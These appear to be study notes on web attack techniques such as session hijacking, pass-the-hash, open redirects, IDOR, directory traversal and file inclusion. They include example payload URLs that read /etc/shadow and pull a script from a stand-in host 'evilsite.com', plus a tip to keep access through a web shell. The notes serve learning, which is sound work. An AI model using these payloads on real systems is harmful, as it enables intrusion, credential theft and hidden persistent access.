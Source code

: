 ## Exploiting Authentication Vulnerabilities

### Password Authentication
* Flaw: Once an attacher knows a password, they can keep using it for access.
* Risk: Social Engineering, unencrypted traffic, password dumps from hacked sites, brute force, guessing
### Session Attacks
* *Cookie Stealing & Manipulation*
  * Steal an existing (authentication) session
  * After auth, the session token is stored in browser cookie for further request auth
  * How to steal it?
    * Unencrypted network traffic
    * Malware in browser
    * On Path attack - Impersonate target site, forward the actual credentials to target site, return the request to the user with the cookie, but now you also have that cookie. (But you know then the credentials either way?)
  * Once you have the cookie
    * Session Replay Attack - The attacker reuses the session of the target
  * Defenses
    * Mark Cookie `SECURE` - tells the browser to never send it over unencrypted requests
  * NTLM pass-the-hash
    * NTLM hash is the hash function in windows to store user's passwords.
    * So if you can intercept this hash, instead of the username/password, you can also authenticate in/with windows.
* *Unvalidated Redirects*
  * Example: `example.com/order?redirect_ok=https://evilsite.com` and then the evil site can impersonate and ask to re authenticate again or whaterver
  * Example: `example.com/login?login_ok=https://evilsite.com`, then after login it might call `https://evilsite.com?csrf_token=<somevalue>` or the `Referer: https://bank.com/transfer?sessionid=abc123&csrf_token=xyz789` header

## Exploiting Authorization Vulnerabilities

### Insecure Direct Object References
* `example.com/orders?id=100` shows your order and you can just do `example.com/orders?id=101` and see anothers order.
### Directory Traversal
* The web server allows to navigate the directory and list all files - bad configuration
  * Appache Server / NGINX - `www.example.com/../../../etc/shawdow` (so you just path yourself outside the web folder)
  * Open AWS S3 bucket
  * It helps to know on what server the site is host to then learn about their (Default) config
### File Inclusion
* Next level Directory Traversel - you don't just read a file, you execute it
* Run a file from the server's file system: `www.example.com/?include=../../../etc/attack.sh`
* Run a file from an external place: `www.example.com/?include=www.evilsite.com/script.sh`
* Attack might then upload a [Web Shell](https://en.wikipedia.org/wiki/Web_shell) to comfortably run commands and see output
  * ✅ The webshell uses HTTPS, so it hides even better.
* TIP: Patch the vulnerability and persist your access with the web shell
### Privilege Escalation
* Upgrade your user to have more rights or higher group
* [Dirty Cow](https://en.wikipedia.org/wiki/Dirty_COW) - Linux vulnerability
